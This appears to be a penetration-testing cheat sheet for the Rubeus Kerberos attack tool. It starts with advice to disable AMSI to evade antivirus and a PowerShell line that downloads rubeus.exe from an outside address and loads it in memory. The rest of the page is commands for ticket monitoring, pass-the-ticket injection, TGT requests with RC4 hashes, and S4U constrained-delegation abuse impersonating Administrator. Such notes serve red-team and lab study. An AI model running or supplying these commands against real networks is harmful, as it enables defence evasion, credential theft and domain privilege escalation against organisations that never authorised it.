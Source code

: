 # Rubeus

## Assembly Reflection

{% hint style="info" %}
Can be used to evade AV.

Disable AMSI, load the exe as Assembly and invoke the methods.
{% endhint %}

* Load the assembly using Reflection

```csharp
$ass = (new-object net.webclient).DownloadData('http://10.110.0.66/tools/rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($ass)
```

* Invoke a function

```csharp
[Rubeus.Program]::Main("purge".Split())
```

![](../../../.gitbook/assets/image%20%2839%29.png)

* Request a TGS \(Constrained Delegation\)

```csharp
[Rubeus.Program]::Main("s4u /user:server01 /rc4:sdsafgsa08ac2d2sad5988cbsda /impersonateuser:Administrator /msdsspn:cifs/server02 /ptt".Split())
```

## Monitor for TGT

```text
rubeus.exe monitor /interval:5 /filteruser:<machine account$ or username>
```

## Inject Ticket

```csharp
.\Rubeus.exe asktgt /user:iissvc /domain:test.lab.local /rc4:FC525C9683E8FE067095BA2DDC971889
rubeus.exe ptt /ticket:Base64_ticket_here
```

## Constrained Delegation

### Create hash from password

```csharp
 .\Rubeus.exe hash /password:Passw0rd!
```

### Ask a TGT

```csharp
.\Rubeus.exe asktgt /user:iissvc /domain:test.lab.local /rc4:FC525C9683E8FE067095BA2DDC971889
```

### S4U

```text
 .\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:mssqlsvc/test.lab.local:1433 /ptt /ticket:doIE+jCCBPdsakljdkslad/lakdlsa
```

{% hint style="info" %}
altservice can also be used to the command if /msdsspn is **www.**

**/altservice:CIFS /ptt /ticket:xxxxxxxx**
{% endhint %}



